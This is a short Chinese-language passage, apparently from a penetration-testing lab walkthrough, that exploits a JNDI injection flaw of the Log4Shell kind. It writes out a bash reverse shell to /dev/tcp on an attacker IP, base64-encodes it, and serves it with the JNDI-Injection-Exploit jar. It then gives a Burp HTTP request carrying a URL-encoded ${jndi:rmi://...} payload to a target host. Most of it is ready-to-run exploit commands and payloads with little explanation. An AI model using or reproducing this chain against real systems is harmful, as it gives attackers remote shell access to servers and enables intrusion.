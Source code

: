 ```
bash -i >& /dev/tcp/100.1.1.169/1245 0>&1
```

将其 base64 编码

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDAuMS4xLjE2OS8xMjQ1IDA+JjE=
```

先用 JNDI 注入工具起 RMI 或 ldap，具体命令如下：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDAuMS4xLjE2OS8xMjQ1IDA+JjE=}|{base64,-d}|{bash,-i}" -A 100.1.1.169
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[ADDRESS] >> 100.1.1.169
[COMMAND] >> bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDAuMS4xLjE2OS8xMjQ1IDA+JjE=}|{base64,-d}|{bash,-i}

```

![image-20230711141952152](img/image-20230711141952152.png)

选择一个 payload 复制，放入 burpsuite 的如下报文中（需要 URL 编码），发送给目标主机：

```http
GET /hello?payload=%24%7b%6a%6e%64%69%3a%72%6d%69%3a%2f%2f%31%30%30%2e%31%2e%31%2e%31%36%39%3a%31%30%39%39%2f%71%7a%74%73%39%63%7d%20 HTTP/1.1
Host: 192.168.1.189:52721
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 6

```
